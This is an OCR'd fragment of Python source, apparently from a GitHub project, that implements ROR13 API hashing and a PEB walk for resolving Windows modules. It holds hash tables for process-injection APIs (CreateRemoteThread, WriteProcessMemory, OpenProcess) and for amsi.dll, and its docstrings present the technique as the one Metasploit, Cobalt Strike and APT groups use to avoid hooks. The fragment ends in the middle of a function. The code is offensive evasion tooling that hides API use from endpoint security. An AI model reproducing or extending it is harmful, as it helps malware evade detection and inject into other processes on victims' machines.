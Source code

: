 ```python
            'VirtualProtect': 0x7946C61B,
            'CreateThread': 0x16B3FE88,
            'CreateRemoteThread': 0xB1A07F5C,
            'WriteProcessMemory': 0x6E1A959C,
            'OpenProcess': 0x7C38D332,
            
            # Add all 200+ APIs you need here
        }
        
        # Module hashes
        self.MODULE_HASHES = {
            'ntdll.dll': 0x1EDAB0ED,
            'kernel32.dll': 0x6A4ABC5B,
            'kernelbase.dll': 0x92A90DBD,
            'amsi.dll': 0x8B3AD6C1,
        }
    
    @staticmethod
    def hash_string(name: str) -> int:
        """
        ROR13 hash - Industry standard for API hashing
        
        Used by:
        - Metasploit Framework (20+ years)
        - Cobalt Strike
        - APT groups worldwide
        - 80%+ of advanced malware
        
        Why ROR13:
        - Fast (no crypto overhead)
        - Good distribution (few collisions)
        - Reversible (can brute-force but impractical)
        - Standard (well-tested)
        """
        hash_val = 0
        for c in name.upper():
            # Rotate right 13 bits
            ror13 = ((hash_val >> 13) | (hash_val << (32 - 13))) & 0xFFFFFFFF
            hash_val = (ror13 + ord(c)) & 0xFFFFFFFF
        return hash_val
    
    def get_module_base_hashed(self, module_hash: int) -> Optional[int]:
        """
        Get module base by hash without GetModuleHandle
        
        Technique: Walk PEB (Process Environment Block)
        
        Research:
        - "PEB and TEB" - Microsoft Debugging Tools documentation
        - "Advanced Windows Exploitation" - Offensive Security
        - Used by ALL modern malware
        
        Why it works:
        - PEB contains list of ALL loaded modules
        - Accessible from user-mode
        - No API calls required
        - Can't be hooked (direct memory read)
        """
        try:
            if not ctypes.windll:
                return None
            
            # Get TEB (Thread Environment Block) address
```